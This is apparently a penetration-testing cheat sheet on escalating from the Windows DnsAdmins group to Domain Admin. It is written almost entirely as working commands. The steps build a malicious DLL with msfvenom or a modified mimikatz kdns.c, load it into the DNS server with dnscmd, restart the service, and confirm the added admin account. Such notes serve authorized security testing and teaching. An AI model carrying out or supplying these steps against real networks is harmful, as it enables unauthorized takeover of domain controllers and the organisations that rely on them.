 ### Groups

-  `whoami /all` 
-  Check non-default groups -> [Exploits](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

#### DnsAdmins (AD)

Members of the **DnsAdmins** group can exploit their  privileges to load an arbitrary DLL with SYSTEM privileges on a DNS  server, often hosted on **Domain Controllers.**

- **Add the user to Domain Admin**

	1. Check your role:

		```powershell
		Get-ADGroupMember -Identity DnsAdmins
		```

	2. Write a DLL to go from DNS Admin to Domain Admin (or rev shell)

		- Easier, less stealthy

			```powershell
			msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
			```

		- Follow [KDNS Method](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)

			- Clone the [mimikatz repository](https://github.com/gentilkiwi/mimikatz) and go inside `mimilib` folder

			- Change [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) by adding a `system("CMD_HERE");` below the `fclose()` line in the file and remove the `klog()` line

			- Compile `mimilib.dll`
				```bash
				x86_64-w64-mingw32-gcc -shared -o evil.dll kdns.c #64-Bit
				i686-w64-mingw32-gcc -shared -o evil.dll kdns.c   #32-Bit
				```

	3. Load the custom DLL

		```cmd
		dnscmd.exe /config /serverlevelplugindll [PATH]\adduser.dll
		```

	4. Restart the DNS service (if you have permissions) or wait

		```cmd
		sc stop dns				# Makes the AD stop working
		sc start dns
		```

	5. Confirm (look for you user)

		```cmd
		net group "Domain Admins" /dom
		```
